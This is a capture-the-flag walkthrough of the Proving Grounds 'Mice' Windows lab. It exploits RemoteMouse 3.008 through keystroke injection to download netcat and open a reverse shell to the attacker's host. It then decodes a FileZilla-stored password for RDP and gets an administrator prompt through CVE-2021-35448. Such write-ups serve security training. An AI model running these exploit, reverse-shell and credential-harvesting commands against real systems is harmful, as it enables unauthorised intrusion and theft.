

# Mice

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 10
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting RemoteMouse 3.008 to achieve remote code execution via a modified exploit 
that delivers a reverse shell. Learners will escalate privileges by extracting and decoding credentials 
from FileZilla's configuration files, gaining RDP access as a user. Finally, they will exploit the 
RemoteMouse application's admin privileges to spawn a Command Prompt as Administrator. This lab emphasizes 
RCE, credential exploitation, and leveraging application misconfigurations for privilege escalation.
Released: 9 May 2022
```

Machine link: N/A, This machine is no longer available!

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ export TARGET_IP=192.168.118.199     

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ sudo nmap -sV -sC -p- $TARGET_IP 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 10:09 CEST
Nmap scan report for 192.168.118.199
Host is up (0.033s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE        VERSION
1978/tcp open  remotemouse    Emote Remote Mouse
1979/tcp open  unisql-java?
1980/tcp open  pearldoc-xact?
3389/tcp open  ms-wbt-server  Microsoft Terminal Services
| ssl-cert: Subject: commonName=Remote-PC
| Not valid before: 2025-08-25T10:09:25
|_Not valid after:  2026-02-24T10:09:25
| rdp-ntlm-info: 
|   Target_Name: REMOTE-PC
|   NetBIOS_Domain_Name: REMOTE-PC
|   NetBIOS_Computer_Name: REMOTE-PC
|   DNS_Domain_Name: Remote-PC
|   DNS_Computer_Name: Remote-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2025-09-29T08:14:17+00:00
|_ssl-date: 2025-09-29T08:14:45+00:00; +1s from scanner time.
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 295.82 seconds
```

We have two main services running and available:

- Emote Remote Mouse running on port 1978
- Microsoft Terminal Service running on port 3389

In addition, we have unknown services running on port 1979, 1980 and 7680.

We also see that the machine is called `Remote-PC` and is running `Windows 10 version 2004`.

### Search for available exploits

Let's see if there are any available exploits for the remote mouse service.

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ searchsploit remote mouse                
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Hosting Controller 0.6.1 - User Registration (1)                                                                                                      | windows/remote/979.txt
Hosting Controller 0.6.1 Hotfix 1.4 - Directory Browsing                                                                                              | windows/remote/675.txt
Hosting Controller 1.x/6.1 - Multiple Information Disclosure Vulnerabilities                                                                          | windows/remote/25194.txt
Micorosft Internet Explorer - SetMouseCapture Use-After-Free (Metasploit)                                                                             | windows/remote/28682.rb
Microsoft Internet Explorer 5.0.1 - Mouse Event URI Status Bar Obfuscation                                                                            | windows/remote/25095.txt
Microsoft Internet Explorer 5.0.1 - Popup.show Mouse Event Hijacking                                                                                  | windows/remote/24266.txt
Microsoft Internet Explorer 6 < 10 - Mouse Tracking                                                                                                   | windows/remote/23321.txt
Mini Mouse 9.2.0 - Remote Code Execution                                                                                                              | windows/webapps/49743.py
Mobile Mouse 3.6.0.4 - Remote Code Execution (RCE)                                                                                                    | windows/remote/51010.py
Mozilla Browser 1.5 - URI MouseOver Obfuscation                                                                                                       | multiple/remote/23433.txt
Remote Mouse 4.002 - Unquoted Service Path                                                                                                            | windows/local/50258.txt
Remote Mouse GUI 3.008 - Local Privilege Escalation                                                                                                   | windows/local/50047.txt
RemoteMouse 3.008 - Arbitrary Remote Command Execution                                                                                                | windows/remote/46697.py
TOTOLINK Routers - Backdoor / Remote Code Execution                                                                                                   | hardware/webapps/37770.txt
uzbl 'uzbl-core' - '@SELECTED_URI' Mouse Button Bindings Command Injection                                                                            | linux/remote/34426.txt
WiFi Mouse 1.7.8.5 - Remote Code Execution                                                                                                            | windows/remote/49601.py
WiFi Mouse 1.7.8.5 - Remote Code Execution(v2)                                                                                                        | windows/remote/50972.py
WiFi Mouse 1.8.3.2 - Remote Code Execution (RCE)                                                                                                      | windows/remote/51072.py
WiFiMouse 1.8.3.4 - Remote Code Execution (RCE)                                                                                                       | windows/remote/51016.sh
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I first tried `46697.py` but ran into some trouble and used [this exploit](https://github.com/p0dalirius/RemoteMouse-3.008-Exploit/blob/master/RemoteMouse-3.008-Exploit.py) instead

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ head RemoteMouse-3.008-Exploit.py 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# File name          : remote.py
# Author             : Podalirius (@podalirius_)
# Date created       : 17 Dec 2021

import argparse
import time
from enum import Enum
from socket import socket, AF_INET, SOCK_STREAM, SOCK_DGRAM

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ tail -n 50 RemoteMouse-3.008-Exploit.py
        Closes the socket connection to the RemoteMouse server.

        This method cleanly closes the underlying socket connection that was established
        with the RemoteMouse server. It should be called when done using the RemoteMouse
        instance to free up system resources.

        Returns:
            None

        Example:
            remotemouse.close()  # Close the connection
        """
        self.__socket.close()


def parseArgs():
    parser = argparse.ArgumentParser(description="RemoteMouse 3.008 Exploit")

    parser.add_argument("-t", "--target-ip", default=None, required=True, help="Target IP address")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode")
    parser.add_argument("-d", "--delay", type=float, default=0.05, help="Delay in seconds between each character of the payload (default: 0.5)")
    parser.add_argument("-c", "--cmd", default=None, required=True, help="Command to execute on the target system")

    return parser.parse_args()


if __name__ == '__main__':
    options = parseArgs()
    remotemouse = RemoteMouse(host=options.target_ip, verbose=options.verbose)

    # Press Win 
    remotemouse.keyboard.press(Keymap.KEY_WIN)
    time.sleep(options.delay)

    # Type cmd.exe
    remotemouse.keyboard.press(Keymap.KEY_BACKSPACE)
    time.sleep(options.delay)

    remotemouse.typewrite("cmd.exe", delay=options.delay)
    time.sleep(options.delay)

    remotemouse.keyboard.press(Keymap.KEY_RETURN)

    # Wait for cmd.exe to start
    time.sleep(1)
    # Send payload char by char
    remotemouse.typewrite(options.cmd, delay=options.delay)
    time.sleep(options.delay)
    # Press enter to execute payload
    remotemouse.keyboard.press(Keymap.KEY_RETURN)

```

We have a Python exploit and we will use it to get a reverse shell.

The exploit will start `cmd.exe` and "type" in our command, character by character, in the window.

### Get a reverse shell

So we start Apache2 that shares `nc64.exe` among other things

```bash
┌──(kali㉿kali)-[/var/www/html]
└─$ ls
chisel_1.8.1  index.nginx-debian.html  nc64.exe  nc.exe          plink.exe      SharpHound2.ps1  SharpHound.ps1  upload.php  winPEAS.ps1
index.html    jaws-enum.ps1            ncat      nc.traditional  PowerView.ps1  SharpHound.exe   upload.html     uploads     winPEASx64.exe

┌──(kali㉿kali)-[/var/www/html]
└─$ sudo systemctl start apache2               
[sudo] password for kali: 
```

We run the exploit to download netcat to the target machine

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ ./RemoteMouse-3.008-Exploit.py -t $TARGET_IP -c 'powershell.exe -c "curl.exe http://192.168.45.167/nc64.exe -o C:\\Windows\\Tasks\\nc64.exe"'
```

And check the Apache2 log for verification

```bash
┌──(kali㉿kali)-[/var/log/apache2]
└─$ tail -n1 access.log                
192.168.118.199 - - [29/Sep/2025:12:03:01 +0200] "GET /nc64.exe HTTP/1.1" 200 45522 "-" "curl/7.55.1"
```

We start a netcat listener on port 443.  

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ nc -lvnp 443
listening on [any] 443 ...

```

And trigger netcat

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ ./RemoteMouse-3.008-Exploit.py -t $TARGET_IP -c 'C:\\Windows\\Tasks\\nc64.exe 192.168.45.167 443 -e cmd.exe'   
```

Checking back to the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.118.199] 53529
Microsoft Windows [Version 10.0.19042.1348]
(c) Microsoft Corporation. All rights reserved.

C:\Users\divine>hostname 
hostname
Remote-PC

C:\Users\divine>whoami
whoami
remote-pc\divine

C:\Users\divine>
```

We are running as the `divine` user.

### Get the user flag

Now we can get the user flag

```bat
C:\Users\divine> cd Desktop
cd Desktop

C:\Users\divine\Desktop> dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\Users\divine\Desktop

12/06/2021  09:39 PM    <DIR>          .
12/06/2021  09:39 PM    <DIR>          ..
09/29/2025  01:05 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,188,912,640 bytes free

C:\Users\divine\Desktop> type local.txt
type local.txt
5<REDACTED>5
```

### Enumeration for privilege escalation

We start to check our privileges

```bat
C:\Users\divine\Desktop> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\divine\Desktop> whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  
```

We can RDP to the machine with this user.

Next, we search for credentials (`pass`) in various configuration files

```bat
C:\Users\divine\Desktop> cd ..
cd ..

C:\Users\divine> findstr /SI /C:"pass" *.ini *.cfg *.config *.xml                                                    
findstr /SI /C:"pass" *.ini *.cfg *.config *.xml
AppData\Roaming\FileZilla\filezilla.xml:                <Setting name="FTP Proxy password"></Setting>
AppData\Roaming\FileZilla\filezilla.xml:                <Setting name="Proxy password"></Setting>
AppData\Roaming\FileZilla\filezilla.xml:                <Setting name="Master password encryptor"></Setting>
AppData\Roaming\FileZilla\filezilla.xml:                <Setting name="Prompt password save">1</Setting>
AppData\Roaming\FileZilla\recentservers.xml:                    <Pass encoding="base64">Q29udHJvbEZyZWFrMTE=</Pass>
AppData\Roaming\FileZilla\recentservers.xml:                    <BypassProxy>0</BypassProxy>

C:\Users\divine> type AppData\Roaming\FileZilla\recentservers.xml
type AppData\Roaming\FileZilla\recentservers.xml
<?xml version="1.0" encoding="UTF-8"?>
<FileZilla3 version="3.54.1" platform="windows">
        <RecentServers>
                <Server>
                        <Host>ftp.pg</Host>
                        <Port>21</Port>
                        <Protocol>0</Protocol>
                        <Type>0</Type>
                        <User>divine</User>
                        <Pass encoding="base64">Q29udHJvbEZyZWFrMTE=</Pass>
                        <Logontype>1</Logontype>
                        <PasvMode>MODE_DEFAULT</PasvMode>
                        <EncodingType>Auto</EncodingType>
                        <BypassProxy>0</BypassProxy>
                </Server>
        </RecentServers>
</FileZilla3>
```

Ah, a base64-encoded FTP-password for the `divine` user

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ echo 'Q29udHJvbEZyZWFrMTE=' | base64 -d
ControlFreak11  
```

Perhaps this password is re-used?

### Connect with RDP as divine

Let's test to connect with RDP as divine with the new password

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:divine /p:ControlFreak11 /h:1024 /w:1500 +clipboard
[13:48:27:791] [119740:119750] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[13:48:27:791] [119740:119750] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
<---snip--->
```

It worked!

Looking back at our list of exploits

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ searchsploit remote mouse                
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Hosting Controller 0.6.1 - User Registration (1)                                                                                                      | windows/remote/979.txt
Hosting Controller 0.6.1 Hotfix 1.4 - Directory Browsing                                                                                              | windows/remote/675.txt
Hosting Controller 1.x/6.1 - Multiple Information Disclosure Vulnerabilities                                                                          | windows/remote/25194.txt
Micorosft Internet Explorer - SetMouseCapture Use-After-Free (Metasploit)                                                                             | windows/remote/28682.rb
Microsoft Internet Explorer 5.0.1 - Mouse Event URI Status Bar Obfuscation                                                                            | windows/remote/25095.txt
Microsoft Internet Explorer 5.0.1 - Popup.show Mouse Event Hijacking                                                                                  | windows/remote/24266.txt
Microsoft Internet Explorer 6 < 10 - Mouse Tracking                                                                                                   | windows/remote/23321.txt
Mini Mouse 9.2.0 - Remote Code Execution                                                                                                              | windows/webapps/49743.py
Mobile Mouse 3.6.0.4 - Remote Code Execution (RCE)                                                                                                    | windows/remote/51010.py
Mozilla Browser 1.5 - URI MouseOver Obfuscation                                                                                                       | multiple/remote/23433.txt
Remote Mouse 4.002 - Unquoted Service Path                                                                                                            | windows/local/50258.txt
Remote Mouse GUI 3.008 - Local Privilege Escalation                                                                                                   | windows/local/50047.txt
RemoteMouse 3.008 - Arbitrary Remote Command Execution                                                                                                | windows/remote/46697.py
TOTOLINK Routers - Backdoor / Remote Code Execution                                                                                                   | hardware/webapps/37770.txt
uzbl 'uzbl-core' - '@SELECTED_URI' Mouse Button Bindings Command Injection                                                                            | linux/remote/34426.txt
WiFi Mouse 1.7.8.5 - Remote Code Execution                                                                                                            | windows/remote/49601.py
WiFi Mouse 1.7.8.5 - Remote Code Execution(v2)                                                                                                        | windows/remote/50972.py
WiFi Mouse 1.8.3.2 - Remote Code Execution (RCE)                                                                                                      | windows/remote/51072.py
WiFiMouse 1.8.3.4 - Remote Code Execution (RCE)                                                                                                       | windows/remote/51016.sh
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There was also a GUI RCE for Remote Mouse

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ searchsploit -m 50047.txt
  Exploit: Remote Mouse GUI 3.008 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/50047
     Path: /usr/share/exploitdb/exploits/windows/local/50047.txt
    Codes: CVE-2021-35448
 Verified: True
File Type: ASCII text
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Mice/50047.txt

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Practice/Mice]
└─$ cat 50047.txt 
# Exploit Title: Remote Mouse GUI 3.008 - Local Privilege Escalation
# Exploit Author: Salman Asad (@deathflash1411) a.k.a LeoBreaker
# Date: 17.06.2021
# Version: Remote Mouse 3.008
# Tested on: Windows 10 Pro Version 21H1
# Reference: https://deathflash1411.github.io/blog/cve-2021-35448
# CVE: CVE-2021-35448

Steps to reproduce:

1. Open Remote Mouse from the system tray
2. Go to "Settings"
3. Click "Change..." in "Image Transfer Folder" section
4. "Save As" prompt will appear
5. Enter "C:\Windows\System32\cmd.exe" in the address bar
6. A new command prompt is spawned with Administrator privileges   
```

The Explorer-process restarted a couple of times and it took quite a while before the `Remote mouse` icon was visible in the system tray.

We follow the step-by-step instructions above



### Get the root flag

In the `cmd.exe` window that pops up, we are running as SYSTEM

```bat
C:\Users\divine>whoami
nt authority\system

C:\Users\divine>
```

So we can just `type` the flag

```bat
C:\Users\divine> cd ..\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\Users\Administrator\Desktop

12/06/2021  09:36 PM    <DIR>          .
12/06/2021  09:36 PM    <DIR>          ..
09/29/2025  05:36 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,337,366,528 bytes free

C:\Users\Administrator\Desktop> type proof.txt
9<REDACTED>1

C:\Users\Administrator\Desktop>
```

For additional information, please see the references below.

## References

- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [findstr - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [List of Microsoft Windows versions - Wikipedia](https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [Remote Desktop Services - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Services)
- [systemctl - Linux manual page](https://www.man7.org/linux/man-pages/man1/systemctl.1.html)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
